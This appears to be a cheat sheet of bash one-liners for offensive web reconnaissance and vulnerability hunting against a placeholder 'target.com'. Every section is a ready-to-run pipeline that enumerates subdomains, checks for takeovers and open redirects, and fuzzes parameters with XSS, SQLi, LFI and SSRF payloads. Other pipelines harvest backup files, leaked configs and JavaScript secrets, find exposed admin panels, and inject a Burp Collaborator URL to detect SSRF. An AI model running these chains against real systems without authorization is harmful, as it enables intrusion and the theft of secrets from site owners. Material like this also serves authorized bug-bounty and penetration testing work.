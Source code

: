### Subdomain Takeover + Open Redirect Chain (Full Passive → Exploit Ready)
```bash
subfinder -d target.com | httpx -silent | nuclei -silent -t takeovers/,redirect/ -o takeover_redirects.txt
```

### Full Parameter Discovery + Automated Fuzzing (XSS, SQLi, LFI, SSRF)
```bash
gau target.com | gf xss,lfi,sqli,ssrf | qsreplace FUZZ | ffuf -u FUZZ -w payloads/xss.txt,payloads/lfi.txt,payloads/sqli.txt,payloads/ssrf.txt -fr "FUZZ" | tee param_vulns.txt
```

### Auto Search for Backup Files + Leaked Configs (All Subdomains)
```bash
subfinder -d target.com | httpx -silent -path-list <(curl -s https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/backup.txt) -mc 200 | tee backup_leaks.txt
```

### Deep Web Archive Scraping + JS Secrets Extraction
```bash
gau --subs target.com | grep '\.js$' | httpx -silent -status-code -mc 200 | xargs -I{} bash -c 'curl -s {} | gf secrets' | tee js_secrets.txt
```

### Auto-Dump All Endpoints from Wayback, JS, Robots.txt, Sitemap.xml
```bash
subfinder -d target.com | anew subs.txt && cat subs.txt | httpx -silent -path-list <(echo -e "/robots.txt\n/sitemap.xml") -mc 200 | hakrawler -subs -depth 3 | anew all_urls.txt
```

### CSP Bypass Finder (Auto Fetch CSP Across All Subdomains)
```bash
subfinder -d target.com | httpx -silent -path / -mc 200 -hdrs | grep -i 'content-security-policy' | tee csp_policies.txt
```

### Automatic SSRF Detection (Using Collaborator/Canarytokens)
```bash
gau target.com | gf ssrf | qsreplace 'http://your-collaborator-url.burpcollaborator.net' | httpx -silent
```

### Deep Search for Hidden Panels + Config Pages (Across All Ports)
```bash
subfinder -d target.com | httpx -silent -ports 80,443,8080,8443 | nuclei -silent -t panels/,exposures/configs/ -o exposed_panels.txt
```
